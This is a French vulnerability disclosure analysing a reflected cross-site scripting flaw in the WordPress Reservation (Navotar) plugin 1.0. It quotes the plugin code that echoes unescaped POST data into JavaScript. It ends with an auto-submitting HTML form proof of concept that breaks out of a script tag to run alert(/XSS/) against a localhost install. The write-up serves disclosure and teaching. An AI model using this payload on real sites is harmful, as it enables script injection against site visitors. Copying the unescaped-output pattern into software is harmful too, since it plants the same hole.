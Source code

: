 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress Reservation"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [Reservation](https://wordpress.org/plugins/reservation/) se présente de cette façon :

> Navotar Car Rental Reservation Plugin can be easily plugged into your website.
>
> Add the Car Rental Reservation Plugin directly into your website and start getting online reservation from your customers.
>
> Your customers can simply visit your website and select the vehicle they need and fill in the required information and submit. The reservation made will be sent to your car rental software account with Navotar right away.

D'autres fonctionnalités sont listées sur la page du plugin.

La version testée est la 1.0 et date d'il y a 4 ans au moment de ces lignes.

## La vulnérabilité

Dans le script principal `reservation.php` une classe `NTRA_MainControllerOfNavotar` est définie et instanciée en fin de script.

Cette classe a un constructeur qui hooke différentes fonctions :

```php
 Class NTRA_MainControllerOfNavotar{

    public function __construct(){

        add_action( 'init',array( &$this, 'NTRAfileInclude' ) );
        add_action ( 'wp_head',array(&$this, 'NTRAhookInHeader' ));
        add_action( 'init',array( &$this, 'NTRAfrontendFiles' ) );
        add_action( 'admin_menu', array( &$this, 'NTRAaddAdminMenu' ) );
        add_action( 'wp_enqueue_scripts', array( &$this, 'NTRAaddFrontendScripts' ) );
        add_action( 'admin_init',array( &$this, 'NTRAloadAdminStyle' ) );
        add_filter( 'template_include',array( &$this, 'NTRAcontactPageTemplate') );
        add_action('admin_enqueue_scripts', array( &$this, 'NTRAcstmCssAndJs'));
        add_action('admin_enqueue_scripts', array( &$this, 'NTRAadminUrl'));
        add_action("wp_head", array( &$this,"NTRAmyPrintCustomStyle"));
        register_activation_hook(__FILE__,array(&$this, 'NTRAcustomPages'));
```

Le hook destiné aux templates inclus le template nommé `summary.php` :

```php
    function NTRAcontactPageTemplate( $template ) {
        if ( is_page( 'listing' ) ) {
            if ( locate_template( 'listing.php' ) ) {
                $template = locate_template( 'listing.php' );
            } else {
                $template = dirname( __FILE__ ) .'/templates/' . 'listing.php';
            }
        }
--- snip ---                                                                                                                       
        if ( is_page( 'summary' ) ) {
            if ( locate_template( 'summary.php' ) ) {
                $template = locate_template( 'summary.php' );
            } else {
                $template = dirname( __FILE__ ) .'/templates/' . 'summary.php';
            }
        }
--- snip ---
```

C'est ce dernier template qui est vulnérable.

Il commence par extraire les données du tableau `$_POST` pour en remplir d'autres :

```php
    $inf = array();
    $arr = $_POST;

    foreach ($arr as $key => $value) {
        if(stripos($key, '-') !== false){
            $val =  explode("-", $key);
            array_push($val, $value);
            array_push($inf, $val);
        }
        else{
            $exp =  explode("-", $value);
            array_push($inf, $exp);
        }
    }
```

En l'occurrence, c'est dans le bloc `else` que les valeurs passées par POST sont placées dans le tableau `$inf`.

Plus tard le script affiche les données qui n'ont pas été préalablement échappées donc possibilité de XSS :

```php
    //check prmocode onload end

    $("#checkpromo").blur(function(){
        var promo = $('#checkpromo').val();
        if(promo !=''){
            var vtid = <?php if(!empty($inf[0][0])){ echo $inf[0][0]; }  ?>;
            var lid = <?php if(!empty($inf[0][1])){ echo $inf[0][1]; }  ?>;
```

L'injection se fait au milieu de code Javascript. On peut simplement fermer la balise `script` courante puis en rouvrir une autre.

PoC :

```html
<html>
<body>
<form id="myForm" method="POST" action="http://localhost:8000/?page_id=8">
        <input type="hidden" name="fname" value="&lt;/script&gt;&lt;ScRiPt&gt;alert(/XSS/)&lt;/sCrIpT&gt;" />
        <input type="hidden" name="lname" value="default" />
        <input type="hidden" name="phone" value="default" />
        <input type="hidden" name="email" value="whatever@nowhere.com" />
        <input type="hidden" name="city" value="default" />
</form>
<script>document.createElement('form').submit.call(document.getElementById('myForm'));</script>
</body>
</html>
```
